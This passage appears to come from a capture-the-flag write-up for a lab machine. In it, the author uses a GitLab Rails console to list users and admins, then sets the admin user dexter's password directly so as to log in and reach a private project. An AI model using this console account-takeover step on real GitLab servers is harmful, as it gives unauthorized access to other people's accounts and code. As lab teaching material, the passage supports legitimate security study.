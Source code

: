 

I can list the users, and the admin users:



    irb(main):001:0> User.active
    User.active
    => #<ActiveRecord::Relation [#<User id:5 @0xdf>, #<User id:4 @seven>, #<User id:1 @dexter>]>
    irb(main):002:0> User.admins
    User.admins
    => #<ActiveRecord::Relation [#<User id:1 @dexter>]>



### Access SecureDocker Project

#### Via Password Reset

Since dexter is the only admin, perhaps I could reset his password:



    irb(main):003:0> dexter.password = '0xdf0xdf'
    dexter.password = '0xdf0xdf'
    => "0xdf0xdf"
    irb(main):004:0> dexter.password_confirmation = '0xdf0xdf'
    dexter.password_confirmation = '0xdf0xdf'
    => "0xdf0xdf"
    irb(main):005:0> dexter.save
    dexter.save
    Enqueued ActionMailer::DeliveryJob (Job ID: 568f2530-647b-4783-b5b7-6f3e37820ede) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007f77bb1e5660 @uri=#<URI::GID gid://gitlab/User/1>>
    => true



Now I can log in to git.laboratory.htb as dexter, and there's an
additional project:

![](/img/image-20210307054935384.png)
